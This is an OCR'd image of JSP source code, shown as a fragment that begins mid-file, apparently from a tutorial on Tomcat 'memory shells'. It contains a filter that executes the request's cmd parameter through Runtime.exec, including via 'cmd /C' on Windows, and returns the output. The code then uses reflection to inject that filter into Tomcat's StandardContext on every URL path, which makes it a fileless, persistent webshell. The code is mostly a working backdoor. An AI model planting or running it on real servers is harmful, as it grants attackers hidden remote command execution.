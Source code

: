 ```jsp
            if (os != null && os.toLowerCase().startsWith("windows")) {
                isWin = true;
            }

            try {
                if (isWin == false) {
                    bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
                } else {
                    bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec("cmd /C " + cmd).getInputStream()));
                }

                String len;
                while ((len = bufferedReader.readLine()) != null) {
                    res.append(len + "\n");
                }

            } catch (Exception e) {
                res.append(e.getMessage());

            }
            response.getWriter().print("<pre>" + res.toString() + "</pre>");
        }

        @Override
        public void destroy() {

        }
    };

    //接下来创建一个FilterDef开始添加Filter
    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName("test");
    filterDef.setFilterClass(filter.getClass().getName());
    standardContext.addFilterDef(filterDef);

    FilterMap filterMap = new FilterMap();
    filterMap.addURLPattern("/*");
    filterMap.setFilterName("test");
    filterMap.setDispatcher(DispatcherType.REQUEST.name());//添加的是当前diepatcher类型的名字
    standardContext.addFilterMapBefore(filterMap);

    Constructor<ApplicationFilterConfig> declaredConstructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
    declaredConstructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) declaredConstructor.newInstance(standardContext, filterDef);

    Field configs = standardContext.getClass().getDeclaredField("filterConfigs");
    configs.setAccessible(true);
    Map filterConfigs = (Map) configs.get(standardContext);
    filterConfigs.put("test", filterConfig);

%>
</body>
</html>

```
